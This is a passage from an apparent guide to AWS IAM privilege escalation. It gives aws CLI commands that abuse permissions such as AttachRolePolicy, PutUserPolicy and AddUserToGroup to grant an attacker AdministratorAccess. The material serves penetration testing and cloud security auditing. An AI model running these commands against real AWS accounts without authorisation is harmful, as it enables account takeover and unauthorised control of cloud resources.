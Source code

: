 ```bash
aws iam attach-group-policy --group-name $TARGET_GROUP --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

## Attach a Policy to a Role

The iam:AttachRolePolicy permission allows for a scenario like the last two, but for roles. Example:

```bash
aws iam attach-role-policy --role-name $TARGET_ROLE --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

Note that the attacker needs to control a user who has the sts:AssumeRole permission for that role in order to take advantage of this one.

## Set an Inline Policy for a User

The iam:PutUserPolicy permission allows an attack like attaching a policy to a user, except that an inline policy is written to that user instead. Example:

```bash
aws iam put-user-policy --user-name $TARGET_USER --policy-name $POLICY_NAME --policy-document $POLICY_JSON_FILE
```

## Set an Inline Policy for a Group

You can guess what the iam:PutGroupPolicy lets you do by this point. Example:

```bash
aws iam put-group-policy --group-name $TARGET_GROUP --policy-name $POLICY_NAME --policy-document $POLICY_JSON_FILE
```

## Set an Inline Policy for a Role

Another obvious one. Requires the iam:PutRolePolicy permission. Example:

```bash
aws iam put-role-policy --role-name $TARGET_ROLE --policy-name $POLICY_NAME --policy-document $POLICY_JSON_FILE
```

As with other role-based privilege escalation routes, also requires that the user have the sts:AssumeRole permission for `$TARGET_ROLE`.

## Add a User to a Group

Add yourself to a privileged group with the iam:AddUserToGroup permission! Example:

```bash
aws iam add-user-to-group --group-name $TARGET_GROUP --user-name $TARGET_USER
```
